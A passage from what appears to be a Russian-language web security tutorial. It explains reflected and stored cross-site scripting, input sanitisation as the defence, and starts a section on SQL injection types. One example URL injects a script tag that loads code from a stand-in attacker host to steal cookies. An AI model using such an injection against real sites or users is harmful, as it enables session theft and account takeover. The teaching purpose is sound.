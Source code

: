 XSS (_Cross-Site Scripting_ - Межсайтовый скриптинг) это термин, используемый для описания типа атак, которые позволяют злоумышленнику внедрять вредоносный код _через_ веб-сайт в браузеры других пользователей. Поскольку внедрённый код поступает в браузер с сайта, он является _доверенным_ и может выполнять такие действия, как отправка авторизационного файла *cookie* пользователя злоумышленнику. Когда у злоумышленника есть файл _cookie_, он может войти на сайт, как если бы он был пользователем, и сделать все, что может пользователь, например, получить доступ к данным кредитной карты, просмотреть контактные данные или изменить пароли.

> **Примечание:** Уязвимости XSS исторически встречались чаще, чем любые другие виды угроз безопасности.

Уязвимости XSS делятся на _отражённые_ и _хранимые_, в зависимости от того, как сайт возвращает внедрённый код в браузер.

- _Отражённая_ XSS-уязвимость возникает, когда пользовательский контент, который передаётся на сервер, _немедленно_ и _без изменений_ возвращается для отображения в браузере. Любой скрипт в исходном пользовательском контенте запустится при загрузке новой страницы. Например, рассмотрим строку поиска по сайту, в которой поисковые слова закодированы как параметры URL, и эти слова отображаются вместе с результатами. Злоумышленник может создать поисковую ссылку, которая будет содержать вредоносный скрипт в качестве параметра (например: `http://mysite.com?q=beer<script%20src="http://evilsite.com/tricky.js"></script>`) и переслать его другому пользователю по электронной почте. Если целевой пользователь кликнет по этой «интересной ссылке», то скрипт выполнится при отображении результатов поиска. Как мы уже говорили, злоумышленник таким образом получает всю информацию, необходимую ему для входа на сайт в качестве целевого пользователя, потенциального совершения покупок от имени пользователя или получения его контактной информации.
- Постоянная уязвимость XSS возникает, когда вредоносный скрипт хранится на веб-сайте, а затем снова отображается без изменений, чтобы другие пользователи могли выполнять его невольно.

  Например, доска обсуждений, которая принимает комментарии, содержащие неизмененный HTML, может хранить вредоносный скрипт от злоумышленника. Когда комментарии отображаются, скрипт выполняется и может отправить злоумышленнику информацию, необходимую для доступа к учётной записи пользователя. Атака такого рода чрезвычайно популярна и мощна, потому что злоумышленник может даже не иметь прямого отношения к жертвам.

  Хотя данные из запросов POST или GET являются наиболее распространённым источником уязвимостей XSS, любые данные из браузера потенциально уязвимы, такие как данные cookie, отображаемые браузером, или пользовательские файлы, которые загружаются и отображаются.

  Наилучшей защитой от уязвимостей XSS является удаление или отключение любой разметки, которая потенциально может содержать инструкции по запуску кода. Для HTML это включает такие элементы, как \<script>, \<object>, \<embed> и \<link>.

  Процесс изменения пользовательских данных, чтобы их нельзя было использовать для запуска сценариев или иным образом влиять на выполнение серверного кода, называется очисткой ввода. Многие веб-фреймворки автоматически очищают пользовательский ввод от HTML-форм по умолчанию.

### SQL injection

Уязвимости SQL-инъекций позволяют злоумышленникам выполнять произвольный код SQL в базе данных, позволяя получать, изменять или удалять данные независимо от разрешений пользователя. Успешная инъекционная атака может подделать удостоверения, создать новые удостоверения с правами администратора, получить доступ ко всем данным на сервере или уничтожить / изменить данные, чтобы сделать их непригодными для использования.

Типы внедрения SQL включают внедрение SQL на основе ошибок, внедрение SQL на основе логических ошибок и внедрение SQL на основе времени.
